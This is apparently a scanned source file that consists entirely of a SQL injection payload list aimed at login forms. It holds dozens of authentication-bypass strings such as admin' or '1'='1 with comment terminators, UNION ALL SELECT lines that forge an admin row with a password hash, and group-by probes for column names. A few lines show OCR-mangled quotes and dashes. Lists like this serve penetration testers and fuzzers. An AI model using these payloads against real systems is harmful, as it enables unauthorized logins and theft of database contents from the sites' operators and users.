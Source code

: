     admin'/*
    admin' or '1'='1
    admin' or '1'='1'--
    admin' or '1'='1'#
    admin' or '1'='1'/*
    admin'or 1=1 or ''='
    admin' or 1=1
    admin' or 1=1--
    admin' or 1=1#
    admin' or 1=1/*
    admin') or ('1'='1
    admin') or ('1'='1'--
    admin') or ('1'='1'#
    admin') or ('1'='1'/*
    admin') or '1'='1
    admin') or '1'='1'--
    admin') or '1'='1'#
    admin') or '1'='1'/*
    1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
    admin" --
    admin" #
    admin"/*
    admin" or "1"="1
    admin" or "1"="1"--
    admin" or "1"="1"#
    admin" or "1"="1"/*
    admin"or 1=1 or ""="
    admin" or 1=1
    admin" or 1=1--
    admin" or 1=1#
    admin" or 1=1/*
    admin") or ("1"="1
    admin") or ("1"="1"--
    admin") or ("1"="1"#
    admin") or ("1"="1"/*
    admin") or "1"="1
    admin") or "1"="1"--
    admin") or "1"="1"#
    admin") or "1"="1"/*
    1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
    ' and 1='1
    ' and a='a
     or 1=1
     or true
    ' or ''='
    " or ""="
    1′) and '1′='1–
    ' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
    " AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
     and 1=1
     and 1=1–
    ' and 'one'='one
    ' and 'one'='one–
    ' group by password having 1=1--
    ' group by userid having 1=1--
    ' group by username having 1=1--
     like '%'
     or 0=0 --
     or 0=0 #
     or 0=0 –
    ' or         0=0 #
    ' or 0=0 --
    ' or 0=0 #
    ' or 0=0 –
